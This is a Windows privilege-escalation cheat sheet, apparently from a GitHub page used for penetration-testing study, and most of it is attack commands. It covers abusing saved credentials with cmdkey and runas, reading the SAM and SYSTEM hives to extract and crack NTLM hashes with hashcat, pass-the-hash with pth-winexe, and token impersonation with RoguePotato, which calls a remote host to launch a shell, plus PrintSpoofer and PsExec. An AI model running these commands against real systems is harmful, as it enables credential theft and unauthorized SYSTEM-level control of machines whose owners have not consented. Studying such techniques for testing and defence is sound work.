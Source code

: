 ```powershell
C:\Cas&gt; cmdkey /list
```

```powershell
C:\Cas&gt; runas /savecred /user:&lt;user_name&gt; shell.exe
```

### Security Account Manager (SAM)

&gt; “Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.”

    The SAM and SYSTEM files:  `C:\\Windows\System32\config `
    Backups of the files may exist: `C:\\Windows\\Repair` or `C:\\Windows\\System32\\config\\RegBack `
    Extract the hash using ‘[CredDump](https://github.com/Neohapsis/creddump7.git)’
    Use hashcat to crack hash

```powershell
C:\Cas&gt; hashcat -m 1000 --force &lt;hash&gt; /usr/share/wordlists/rockyou.txt
```

### Passing the Hash

&gt; Windows accepts hashes instead of passwords to authenticate to a number of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt using the admin user’s hash

```powershell
C:\Cas&gt; pth-winexe -U '&lt;NTLM hash&gt;' //&lt;IP&gt; cmd.exe
```

## Token Impersonation

### Rogue Potato

&gt; If the machine is &gt;= Windows 10 1809 & Windows Server 2019 — Try Rogue Potato
&gt; If the machine is &lt; Windows 10 1809 &lt; Windows Server 2019 — Try Juicy Potato

Get reverse shell of local service

```powershell
C:\Cas&gt; PsExec64.exe -i -u "nt authority\local service" C:\Cas\shell.exe
```

_“If you have SeAssignPrimaryToken or SeImpersonateprivilege, you are SYSTEM”_

```powershell
C:\Cas&gt; .\RoguePotato.exe -r &lt;remote-host&gt; -e "C:\Cas\shell.exe" -l 443
```

### PrintSpoofer

```powershell
C:\Cas&gt; PrintSpoofer.exe -c shell.exe -i
```

## Automated Enumeration

- _windows-privesc-check_

- _winPEASany_ofs.exe_
